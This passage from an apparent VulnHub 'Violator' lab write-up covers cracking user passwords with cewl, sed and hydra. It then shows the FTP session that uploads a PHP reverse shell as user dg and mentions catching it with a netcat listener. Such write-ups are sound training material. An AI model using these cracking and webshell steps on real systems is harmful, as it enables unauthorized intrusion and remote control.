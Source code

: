 These usernames are matched with the initials of the Depeche Mode's members. They are Dave Gahan, Martin Gore, Andy Fletcher, and Alan Wilder.

In /etc/group folder I saw that the user dg is a member of several groups, so let's try to crack the passwords of these users. I came back to the wikipedia page the one before, and I tried to catch hot words for the creation of wordlist. Initially I used cewl, for extracting all words from the website and then I used tr and sed commands to create all possible combinations. At the end I launched hydra for cracking the passwords of all users:
![Password Cracking](/assets/vulnhub/violator/password-cracking.png)

With big surprise I found all users' passwords- yup!! :smiley: At this point I connected with dg user and then I uploaded /usr/share/webshells/php/php-reverse-shell.php reverse shell. I updated $ip var in php shell and I launched netcat listener. I spawned bash shell with python, and I logged with dg user. I tried to elevate with sudo command but unsuccessfully.

```plaintext
root@kali:~/Scrivania/reports/violator# cp /usr/share/webshells/php/php-reverse-shell.php /var/www/html
root@kali:~/Scrivania/reports/violator# ftp 192.168.1.141
Connected to 192.168.1.141.
220 ProFTPD 1.3.5rc3 Server (Debian) [::ffff:192.168.1.141]
Name (192.168.1.141:root): dg
331 Password required for dg
Password:
230 User dg logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put /var/www/html/php-reverse-shell.php 
local: /var/www/html/php-reverse-shell.php remote: /var/www/html/php-reverse-shell.php
200 PORT command successful
150 Opening BINARY mode data connection for /var/www/html/php-reverse-shell.php
226 Transfer complete
5495 bytes sent in 0.00 secs (16.9046 MB/s)
ftp> exit
421 No transfer timeout (600 seconds): closing control connection
```